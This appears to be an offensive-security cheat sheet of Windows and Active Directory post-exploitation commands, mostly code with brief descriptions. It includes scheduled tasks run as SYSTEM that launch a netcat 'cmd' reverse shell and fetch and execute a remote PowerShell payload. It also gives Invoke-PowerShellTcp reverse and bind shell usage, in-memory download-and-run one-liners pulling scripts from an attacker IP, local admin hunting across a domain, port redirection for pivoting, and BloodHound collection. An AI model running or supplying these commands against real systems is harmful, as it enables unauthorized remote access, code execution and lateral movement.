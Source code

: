 
### gwmi Commands
---
```powershell
PS C:> gwmi -class win32_operatingsystem -ComputerName <computer_fqdn>
```

### Schedule Tasks in Remote Computer
---
```powershell
# Create the task
C:> schtasks /create /S <host_fqdn> /SC Weekly /RU “NT Authority\SYSTEM” /TN “<TASK_NAME>” /TR “C:\Users\Public\Downloads\nc.exe -e cmd <IP> <PORT>”

# Run the task
C:> schtasks /Run /S <host_fqdn> /TN “<TASK_NAME>”
```
### `Invoke-PowerShellTcp.ps1`
---
Opens a shell. Modified Version of the original `Invoke-PowerShellTcp_Old.ps1`. Replacing the main function name to `Power`.

Parameters:
- `Reverse`: To open reverse shell
- `Bind` : Creates a bind shell
- `IPAddress`
- `Port`

Example:
```powershell
C:> . Invoke-PowerShellTcp.ps1      
C:> Power -Reverse -IPAddress 192.168.1.1 -Port 1111
```
To download and run from memory, both options:
```powershell
C:> powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellTcp.ps1'));Power -Reverse -IPAddress <IP> -Port 443
C:> powershell.exe iex (iwr http://<IP>/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress <IP> -Port 443
```

### `Find-PSRemotingLocalAdminAccess.ps1`
---
To search for local admin access on machines in a domain or local network for the current user.
Parameters:
- `ComputerFile`: File with computers to check
- `StopOnSuccess`: Stops when found one
Example:
```powershell
PS C:> . .\Find-PSRemotingLocalAdminAccess.ps1       # Import module
PS C:> Find-PSRemotingLocalAdminAccess               # Run the function
COMPUTER-WITH-ACCESS
PS C:>
```
### `Find-WMILocalAdminAccess.ps1`
---
Runs a WMI command against the sepcified list of computers. Since, by-default, we need local administrative access on a computer to run WMI commands, a success for this fucntions means local administrative access.

parameters: Same as previous tool
```powershell
PS C:> . .\Find-WMILocalAdminAccess.ps1
PS C:> Find-WMILocalAdminAccess
SystemDirectory : C:\Windows\system32
Organization    :
BuildNumber     : 14393
RegisteredUser  : Windows User
SerialNumber    : 00377-80000-00000-AA544
Version         : 10.0.14393
The current user has Local Admin access on: SERVER.domain.local
SystemDirectory : C:\Windows\system32
Organization    :
BuildNumber     : 14393
RegisteredUser  : Windows User
SerialNumber    : 00377-80000-00000-AA549
Version         : 10.0.14393
The current user has Local Admin access on: COMPUTER.domain.local
PS C:>
```
### Enter-PSSession
---
Starts an interactive session with a single remote computer. During the session, the commands that you type run on the remote computer, just as though you were typing directly on the remote computer. You can have only one interactive session at a time.
```powershell
C:> Enter-PSSession <host>
C:> Enter-PSSession -ComputerName <host>
```
### Invoke-Command
---
Runs commands on a local or remote computer and returns all output from the commands, including errors.
```powershell
C:> invoke-command -ComputerName WCOMPUTER -ScriptBlock {whoami}

# Created Session
C:> $sess = New-PSSession <host>
C:> Invoke-Command -ScriptBlock {whoami}.ps1 -Session $sess
```
### WinRS.exe
---
```powershell
C:> winrs.exe -r:COMPUTER cmd
```
### Loader.exe
---
```powershell
C:> Loader.exe -path http://<ip>/<file>.ps1
```
### CMD Intersting Commands
---
##### Task Scheduling
---
```powershell
# Create task to run a reverse shell
C:> schtasks /create /S <host> /SC Weekly /RU "NT Authority\SYSTEM" /TN "<task_name>" /TR "powershell.exe -c 'iex (New-ObjectNet.WebClient).DownloadString(''http://<IP>/Invoke-PowerShellTcpEx.ps1''')'"

# Force task to run
C:> schtasks /Run /S <host_fqdn> /TN "<task_name>"
```
##### Port Redirection
```powershell
# Redirect connection to local ip and port to remote ip andp ort
C:> netsh interface portproxy add v4tov4 listenport=<local_port> listenaddress=<local_IP> connectport=<remote_port> connectaddress=<remote_IP>"
```
### File Copy Using Powershell
```powershell
# From a URL to a file
C:> iwr http://<IP>/Loader.exe -OutFile C:\Users\Public\Loader.exe
```
### Run WMI Commands
---
```powershell
C:> gwmi -Class win32_computersystem -ComputerName dcorp-dc
```
### BloodHound
---

Setup:
- Install and run neo4j:
```powershell
C:> neo4j.bat install-service
C:> neo4j.bat start
```
- Go to http://localhost:7474 and log using `neo4j` and `neo4j`.
- Change the password for `neo4j` user to the desireed one
- Run `BloodHound.exe` from `BloodHound-win32-x64`
- Will ask for credentials: bolt://localhost:7687  -  neo4j  -  PASSWORD

Run Collectors:
- Powershell:
```powershell
C:> . .\SharpHound.ps1
C:> Invoke-BloodHound -CollectionMethod All -Verbose
```
To avoid asking DC, use:
```powershell
C:> Invoke-BloodHound -CollectionMethod All -ExcludeDC
```
